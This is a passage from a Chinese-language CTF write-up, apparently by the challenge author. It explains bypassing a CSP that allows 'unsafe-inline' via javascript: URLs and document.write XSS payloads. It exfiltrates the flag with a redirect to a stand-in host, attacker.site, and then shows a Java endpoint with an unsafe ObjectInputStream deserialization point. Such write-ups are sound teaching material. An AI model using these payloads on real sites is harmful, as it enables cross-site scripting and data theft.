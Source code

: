 這題設定的 CSP 很簡單，把 `default-src` 設成 `'self'`，並允許 inline script 的執行。

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self' 'unsafe-inline';">
```

我設計這個 CSP 的用意有兩點

1. 告訴大家 Content Security Policy 這種東西的存在
2. 無法引用外部 script 進來
3. 限制不能使用 eval （啟用 CSP 後需要特別添加 `'unsafe-eval'` 的規則才會被准許使用 eval）

不能用 eval 其實很好解決，首先第一種解法可以利用 JavaScript scheme。

我想大家多少都會看過 JavaScript scheme 這種東西。簡單來說就是如果一個連結是 `javascript:` 開頭，則後面接的東西會被當成 js 執行，例如向 `javascript:alert(1)` 對瀏覽器而言就是一個合法的連結。這個技巧在所謂的「瀏覽器書籤小工具」很常見，或是早期的網頁設計上也可以見到大家常會使用 `<a href="javascript:void(0)">` 來代表連結無效。

而使用 ` javascript:` 執行 js 是不會被目前 CSP 阻擋的——進一步的來說，它已經被 `'unsafe-inline'` 允許了——因此現在只需要把當前網址導向到一個 `javascript:alert(1)...` 之類的網址，就能達成類似 eval 的效果了！

總之，我們可以把 `eval(location.hash.slice(1))//#alert(1)` 替換成 `location=location.hash.slice(1)//#javascript:alert(1)` 便能繞過 CSP 的限制達成目標。

如果不使用 `location=javascript:...`，這邊也提供第二種解法。其實也可以用 `document.write` 直接寫 HTML 的方法來達成類似的目的：`document.write(decodeURI(location))//&<img src=x onerror="alert(1)...">`，這種行內 js 寫法也是被 `unsafe-inline` 允許的。

#### Step 4: Steal the Content

這部分就簡單了，普通的用 ajax 抓 `/getflag` 的內容，再傳到自己的 server 收 flag 就好。當然受制於 CSP，能傳送資料的方法只有很暴力的 redirect（`location = 'http://attacker.site/?'+flag`）而已

完整 payload 可以參考上方 TL;DR 的部分

## Cat Slayer <sup>Inverse</sup>

- Category: Web
- Difficulty: Easy ~ Medium
- Solves: 2/327
- Keywords: Java Deserialization, Reflection

這題解題人數最少，但應該是比前一題 `XSS Me` 還簡單的題目，只是我猜很多人都因為平時沒有看過 Java Web 而略過了這題 > <

出題時的構想是覺得這算是新手比較少碰觸的一塊，本來就不預期參賽者要有解題經驗或知識，因此主要測驗的點是能即時蒐集並應用知識的能力，讓大家邊做邊學，所以題目也沒進行複雜的包裝，考點呈現上比較像一題裸題。至於之所以選擇加入 reflection 是因為實際上大部分的 Java 反序列化場景都會和 reflection 機制有關，如果不考這個的話感覺回去考傳統 PHP 就好了 XD

### Solution

題目給的是一個 .war ，其本質上其實就只是一個 zip 而已，直接解壓縮就行，其中除了一些 .jsp 以外，還有 .class 檔也就是被編譯過後的 Java。因此第一步要做的肯定是把先反編譯那些 .class 以了解後端的邏輯，方法很多，甚至有線上工具可以用，我這邊就不贅述了。

總之，最明顯能看到的是在 `/WEB-INF/classes/com/controller/IndexController` 中有一個反序列化的點：

```java
@RequestMapping({"/summon.meow"})
public String hello(@RequestParam(value = "name",defaultValue = "(guest)") String username, @RequestParam(value = "num",defaultValue = "10") Integer num, @RequestParam(value = "token",required = false) String token, ModelMap model) throws Exception {
        if (token != null) {
            byte[] byteToken = Base64.getDecoder().decode(token);
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteToken));
            model.addAttribute("player", ois.readObject()); // <- 反序列化
            model.addAttribute("loadFromToken", 1);
        }
//    ...
```
